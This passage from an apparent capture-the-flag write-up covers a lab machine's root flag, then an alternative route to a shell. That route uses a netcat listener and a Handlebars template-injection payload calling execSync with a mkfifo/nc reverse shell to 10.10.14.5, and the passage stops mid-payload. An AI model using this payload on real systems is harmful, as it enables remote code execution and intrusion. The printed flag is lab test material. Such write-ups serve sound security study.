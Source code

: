 <figure><img src="../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**6b258d726d287462d60c103d0142a81c**_

## <mark style="color:blue;">Alternative Reverse Shell</mark>

* I tried to gain a reverse shell abusing the RCE and sending a proper payload. I started sending a [_Netcat_ ](../../networks/tools-and-utilities.md#netcat)listener on my machine and sent the petition with the payload

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp 4444
```
{% endcode %}

{% code title="SSLI_RevShell" overflow="wrap" lineNumbers="true" %}
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
```